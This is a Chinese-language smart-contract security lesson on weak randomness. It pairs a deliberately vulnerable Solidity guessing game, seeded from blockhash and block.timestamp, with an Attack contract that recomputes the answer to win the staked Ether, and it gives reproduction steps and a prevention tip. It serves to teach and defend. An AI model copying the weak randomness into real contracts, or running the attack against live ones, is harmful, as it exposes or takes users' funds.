



# 71.Source of Randomness
## 漏洞
blockhash和block.timestamp不是可靠的随机性来源。


注意：无法在Remix中使用blockhash，因此请使用ganache-cli
```solidity
npm i -g ganache-cli
ganache-cli
```
在Remix中切换环境到Web3提供程序。


GuessTheRandomNumber是一个游戏，如果你能猜出从区块哈希和时间戳生成的伪随机数，你就能赢得1 Ether。

乍一看，似乎不可能猜出正确的数字。
但是让我们看看赢得游戏有多么容易。

1. Alice部署GuessTheRandomNumber并放入1 Ether
2. Eve部署Attack
3. Eve调用Attack.attack()并赢得1 Ether

发生了什么？
Attack通过简单地复制计算随机数的代码，计算出了正确的答案。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract GuessTheRandomNumber {
    constructor() payable {}

    function guess(uint _guess) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        if (_guess == answer) {
            (bool sent, ) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
}

contract Attack {
    receive() external payable {}

    function attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        guessTheRandomNumber.guess(answer);
    }

    // 检查余额的辅助函数
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
## 预防技术
不要使用blockhash和block.timestamp作为随机性来源。

## remix验证
1. 因为无法在Remix中使用blockhash，因此切换至ganache-cli

2. 部署GuessTheRandomNumber并放入1 Ether

3. 部署Attack合约，调用attack()函数，输入GuessTheRandomNumber合约地址，获取1 ETH 验证
